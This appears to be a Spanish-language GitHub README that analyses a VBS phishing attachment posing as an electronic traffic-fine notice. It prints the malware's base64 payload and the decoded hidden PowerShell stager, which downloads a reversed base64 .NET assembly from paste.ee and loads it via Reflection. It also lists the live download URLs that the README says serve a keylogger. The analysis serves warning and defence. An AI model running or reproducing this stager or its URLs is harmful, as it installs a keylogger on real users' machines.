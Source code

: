 # virus-sandbox

- ⚠️ NO ejecutar "Orden del Comparendo Electronico.vbs", este archivo es un virus que circula en diferentes correos electrónicos falsos. Para más información consulte [aquí] 
- ✔️ "decodificado.py" es seguro, elimina la ofuscación del virus que consiste en simples reemplazos e inversiones de strings. 

## :supervillain: El virus descifrado:
Con el archivo decodificado.py se puede observar que el virus contiene el siguiente código en base64:

Código base 64
```
JGRsbCA9ICcwLzhKTWgxL3IvZWUuZXRzYXAvLzpzcHR0aCc7JFJ1bXBlRCA9IChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCAkZGxsWy0xLi4tJGRsbC5MZW5ndGhdIC1qb2luICcnICk7W0J5dGVbXV0gJFJ1bXBlID0gW1N5c3RlbS5Db252ZXJ0XTo6RnJvbUJhc2U2NFN0cmluZyggJFJ1bXBlRFstMS4uLSRSdW1wZUQuTGVuZ3RoXSAtam9pbiAnJyApO1tSZWZsZWN0aW9uLkFzc2VtYmx5XTo6TG9hZCgkUnVtcGUpLkdldFR5cGUoJ2VudC5DbGFzczEnKS5HZXRNZXRob2QoJ1J1bicpLkludm9rZSgkbnVsbCwgW29iamVjdFtdXSAoJ3R4dC4yNjYwMjQwODIxMS9zYnYvZXJvdHMuc2J2bGUvLzpwdHRoJykp;$OWjuxD =
```


```
[SystemBolSULeYnpTextBolSULeYnpEncoding]::ASCIIBolSULeYnpGetString( [SystemBolSULeYnpConvert]::FromBase64String($Codigo) );powershellBolSULeYnpexe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command $OWjuxD
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
```



## :mage_man: El base 64 decodificado:
```
powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -NoProfile -Command
$dll = '0/8JMh1/r/ee.etsap//:sptth';$RumpeD = (New-Object Net.WebClient).DownloadString( $dll[-1..-$dll.Length] -join '' );[Byte[]] $Rumpe = [System.Convert]::FromBase64String( $RumpeD[-1..-$RumpeD.Length] -join '' );[Reflection.Assembly]::Load($Rumpe).GetType('ent.Class1').GetMethod('Run').Invoke($null, [object[]] ('txt.26602408211/sbv/erots.sbvle//:ptth'))9h
```

Pueden evidenciarse dos urls desde donde se descargan otras cadenas en base64 que contienen un keylogger:
- https://paste.ee/r/1hMJ8/0
- http://elvbs.store/vbs/11280420662.txt


### Existen otros 170 archivos, muy posiblemente otras variaciones del virus en http://elvbs.store/vbs


[aquí]: https://www.virus.com.co/318/usted-presenta-con-comparendo-por-foto-multa
